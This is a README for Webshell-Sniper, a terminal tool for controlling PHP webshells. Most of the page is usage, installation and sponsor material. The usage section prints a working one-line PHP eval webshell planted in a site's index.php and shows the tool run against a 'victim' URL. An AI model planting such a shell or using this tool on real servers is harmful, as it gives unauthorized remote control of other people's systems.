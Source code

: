 # Webshell-Sniper
A webshell manager via terminal

[![Backers on Open Collective](https://opencollective.com/Webshell-Sniper/backers/badge.svg)](#backers)
[![Sponsors on Open Collective](https://opencollective.com/Webshell-Sniper/sponsors/badge.svg)](#sponsors) 

#### Usage :
```
Usage : 
        python webshell-sniper.py [URL] [METHOD] [AUTH]
Example : 
        python webshell-sniper.py http://127.0.0.1/c.php POST c
Author : 
        WangYihang <wangyihanger@gmail.com>
```
```
# cat /var/www/html/index.php
<?php eval($_POST['s3cr3t']);?>
# python webshell-sniper.py http://victim.com/index.php POST s3cr3t
...
```

#### Installation:
```
git clone https://github.com/WangYihang/Webshell-Sniper
cd Webshell-Sniper
pip install -r requirements.txt
```

#### Example : 

> v1.1.2

[![A Pentest Example via Webshell-Sniper (YouTube)](./images/pentest_0.png)](https://www.youtube.com/watch?v=iAUwb8SSS4s)

#### Compatibility :
```
Enviroment :
    Attacker :
        Linux
        python 2.7
    Victim :
        apache 2.4
        php 7.0
```

#### Addations:
1. This tool only support to run on unix-like system.
2. It is able to help user control web server which is running PHP or MySQL.

## Contributors

This project exists thanks to all the people who contribute. 
<a href="https://github.com/WangYihang/Webshell-Sniper/graphs/contributors"><img src="https://opencollective.com/Webshell-Sniper/contributors.svg?width=890&button=false" /></a>


## Backers

Thank you to all our backers! 🙏 [[Become a backer](https://opencollective.com/Webshell-Sniper#backer)]

<a href="https://opencollective.com/Webshell-Sniper#backers" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/backers.svg?width=890"></a>


## Sponsors

Support this project by becoming a sponsor. Your logo will show up here with a link to your website. [[Become a sponsor](https://opencollective.com/Webshell-Sniper#sponsor)]

<a href="https://opencollective.com/Webshell-Sniper/sponsor/0/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/0/avatar.svg"></a>
<a href="https://opencollective.com/Webshell-Sniper/sponsor/1/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/1/avatar.svg"></a>
<a href="https://opencollective.com/Webshell-Sniper/sponsor/2/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/2/avatar.svg"></a>
<a href="https://opencollective.com/Webshell-Sniper/sponsor/3/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/3/avatar.svg"></a>
<a href="https://opencollective.com/Webshell-Sniper/sponsor/4/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/4/avatar.svg"></a>
<a href="https://opencollective.com/Webshell-Sniper/sponsor/5/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/5/avatar.svg"></a>
<a href="https://opencollective.com/Webshell-Sniper/sponsor/6/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/6/avatar.svg"></a>
<a href="https://opencollective.com/Webshell-Sniper/sponsor/7/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/7/avatar.svg"></a>
<a href="https://opencollective.com/Webshell-Sniper/sponsor/8/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/8/avatar.svg"></a>
<a href="https://opencollective.com/Webshell-Sniper/sponsor/9/website" target="_blank"><img src="https://opencollective.com/Webshell-Sniper/sponsor/9/avatar.svg"></a>


